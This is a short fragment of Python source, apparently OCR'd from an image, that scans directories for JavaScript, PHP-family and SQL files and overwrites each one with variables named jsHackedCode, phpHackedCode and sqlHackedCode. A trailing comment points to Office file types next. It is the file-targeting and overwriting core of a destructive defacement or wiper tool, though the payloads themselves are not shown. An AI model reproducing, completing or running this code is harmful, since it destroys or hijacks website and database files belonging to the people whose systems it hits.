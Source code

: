 def findJS():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredJS = fnmatch.filter(filesInsideDir, '*.js')
    if len(filteredJS) > 0:
        for k in range(len(filteredJS)):
            pathsToJS.append(dirNameOfDir + "\\" + filteredJS[k - 1])
        populateJS()
def populateJS():
    for l in range(len(pathsToJS)):
        JSFile = open(pathsToJS[l - 1], "w")
        JSFile.write(jsHackedCode)
        JSFile.close()

def findPHP():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredPHP = fnmatch.filter(filesInsideDir, '*.php')
    filteredPHP.extend(fnmatch.filter(filesInsideDir, '*.phtml'))
    filteredPHP.extend(fnmatch.filter(filesInsideDir, '*.php3'))
    filteredPHP.extend(fnmatch.filter(filesInsideDir, '*.php4'))
    filteredPHP.extend(fnmatch.filter(filesInsideDir, '*.php5'))
    filteredPHP.extend(fnmatch.filter(filesInsideDir, '*.php7'))
    filteredPHP.extend(fnmatch.filter(filesInsideDir, '*.phps'))
    filteredPHP.extend(fnmatch.filter(filesInsideDir, '*.php-s'))
    filteredPHP.extend(fnmatch.filter(filesInsideDir, '*.pht'))
    if len(filteredPHP) > 0:
        for k in range(len(filteredPHP)):
            pathsToPHP.append(dirNameOfDir + "\\" + filteredPHP[k - 1])
        populatePHP()
def populatePHP():
    for l in range(len(pathsToPHP)):
        PHPFile = open(pathsToPHP[l - 1], "w")
        PHPFile.write(phpHackedCode)
        PHPFile.close()

def findSQL():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredSQL = fnmatch.filter(filesInsideDir, '*.sql')
    if len(filteredSQL) > 0:
        for k in range(len(filteredSQL)):
            pathsToSQL.append(dirNameOfDir + "\\" + filteredSQL[k - 1])
        populateSQL()
def populateSQL():
    for l in range(len(pathsToSQL)):
        SQLFile = open(pathsToSQL[l - 1], "w")
        SQLFile.write(sqlHackedCode)
        SQLFile.close()

# Microsoft Office File Types

